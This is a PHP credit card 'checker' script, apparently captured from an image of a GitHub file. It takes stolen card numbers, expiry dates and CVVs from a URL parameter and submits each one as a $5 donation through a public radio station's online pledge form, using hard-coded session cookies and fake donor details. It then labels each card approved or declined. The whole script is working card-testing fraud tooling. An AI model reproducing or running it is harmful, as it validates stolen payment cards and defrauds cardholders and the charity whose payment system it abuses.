 <?php

error_reporting(0);


include("bin.php");


function multiexplode($delimiters, $string) {
	$one = str_replace($delimiters, $delimiters[0], $string);
	$two = explode($delimiters[0], $one);
	return $two;
}
$lista = $_GET['lista'];
$cc = multiexplode(array(":", "|", ""), $lista)[0];
$mes = multiexplode(array(":", "|", ""), $lista)[1];
$ano = multiexplode(array(":", "|", ""), $lista)[2];
$cvv = multiexplode(array(":", "|", ""), $lista)[3];



function getStr2($string, $start, $end) {
	$str = explode($start, $string);
	$str = explode($end, $str[1]);
	return $str[0];
}


$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, 'https://members.whro.org/pledge.ajax.php');
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_HTTPHEADER, array(
'Host: members.whro.org',
'Content-Type: application/x-www-form-urlencoded; charset=UTF-8',
'Cookie: WHROpledge=k%2FCno31Ej4bLXd5U4vuHYOWscDXajMOtVAdIKhnx9rA%3D; __utma=167656568.334367602.1545241054.1545241054.1545241054.1; __utmc=167656568; __utmz=167656568.1545241054.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utmt=1; _fbp=fb.1.1545241054804.510200335; _ga=GA1.2.334367602.1545241054; _gid=GA1.2.1366403510.1545241055; _cb_ls=1; _cb=DaSgeACrx0dTDt3o0n; _chartbeat2=.1545241058124.1545241058124.1.DN4VDFCtC1mnDBPbtJBbTmAMCmmtCZ.1; _cb_svref=null; __utmb=167656568.3.8.1545241137157; _gali=savePledge',
'Referer: https://members.whro.org/pledge.php'
));
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_POSTFIELDS, 'data%5BcontactId%5D=&data%5BcontactId2%5D=&data%5Bsource%5D=online&data%5BsourceCode%5D=&data%5Bprogram%5D=&data%5Bvolunteer%5D=&data%5Btitle%5D=Mr.&data%5Bfname%5D=dwada&data%5Bmname%5D=dadawd&data%5Blname%5D=awddawda&data%5Btitle2%5D=Mr.&data%5Bfname2%5D=adwawd&data%5Bmname2%5D=adwaw&data%5Blname2%5D=ddadwa&data%5Bemail%5D=jhhggjgj%40gmail.com&data%5Bphone%5D=6234451117&data%5Baddress%5D=street+38xx&data%5Baddress2%5D=&data%5Bcity%5D=new+york&data%5Bstate%5D=NM&data%5Bzip%5D=10080&data%5Bemployer%5D=&data%5BdonationType%5D=normal&data%5Bamount%5D=5.00&data%5Bterm%5D=&data%5BpaymentType%5D=CREDITCARD&data%5Bccnum%5D='.$cc.'&data%5Bccmonth%5D='.$mes.'&data%5Bccyear%5D='.$ano.'&data%5Bbankid%5D=&data%5Bbankacct%5D=&data%5Bgift%5D=NOGIFT&data%5Bcdname%5D=&data%5Bshippingfee%5D=&data%5Bstation%5D=FMWHRO&data%5Bthankyoutext%5D=&data%5BnewMember%5D=&data%5Bcomments%5D=sfssff+&data%5BWHROpledge%5D=7TqP%2BZFoXXRY5ASr%2B2fdbV%2B9lpFAmEHOKN5cnzQbTRs%3D&data%5Bf%5D=save');
$fim = curl_exec($ch);



$bin = ''.$banco.' ('.$pais.') '.$nivel.' - '.$tipo.'';



if(strpos($fim, 'OK') !== false) {
	echo '<span class="badge badge-success">#Aprovada by @H3LLLLL </span> '.$cc.' '.$mes.' '.$ano.' '.$cvv.' <b>'.$bin.'</b>';
} else {
	echo '<span class="badge badge-danger">#Reprovada by @H3LLLLL </span> '.$cc.' '.$mes.' '.$ano.' '.$cvv.' <b>'.$bin.'</b>';
}


?>
